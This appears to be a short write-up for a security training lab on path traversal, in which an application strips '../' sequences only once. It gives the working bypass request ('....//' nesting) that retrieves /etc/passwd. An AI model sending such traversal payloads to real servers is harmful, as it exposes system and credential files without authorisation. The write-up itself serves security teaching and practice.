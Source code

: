 # File path traversal, traversal sequences stripped non-recursively
# Objective
This lab contains a path traversal vulnerability in the display of product images. \
The application strips path traversal sequences from the user-supplied filename before using it.\
To solve the lab, retrieve the contents of the `/etc/passwd` file.

# Solution
|![](Images/image-6.png)|
|:--:| 
| *Image location* |

```
GET /image?filename=/etc/passwd                 No such file
GET /image?filename=../../../etc/passwd         No such file
```
```
GET /image?filename=....//../....//....//etc/passwd
```

|![](Images/image-7.png)|
|:--:| 
| *Retrieval of `/etc/passwd`* |